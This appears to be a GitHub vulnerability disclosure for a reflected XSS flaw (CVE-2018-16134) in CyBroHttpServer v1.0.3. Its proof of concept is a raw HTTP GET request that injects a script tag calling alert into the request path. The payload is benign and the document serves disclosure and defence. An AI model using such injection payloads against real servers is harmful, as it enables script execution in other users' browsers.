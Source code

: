 # CyBroHttpServer-v1.0.3-Reflected-XSS
Reflected XSS in CyBroHttpServer v1.0.3 impacts users who open a maliciously crafted link or third-party web page.

# CVE-2018-16134
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-16134

# PoC
To exploit vulnerability, someone could use 'http://[host]/<script>alert("selfxss");</script>' request to impact users who open a maliciously crafted link or third-party web page.


```
GET <script>alert('selfxss');</script> HTTP/1.1
Host: 192.168.43.102:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

![alt tag](https://emreovunc.com/blog/en/CyBroHttpServer-v1.0.3-XSS.png)
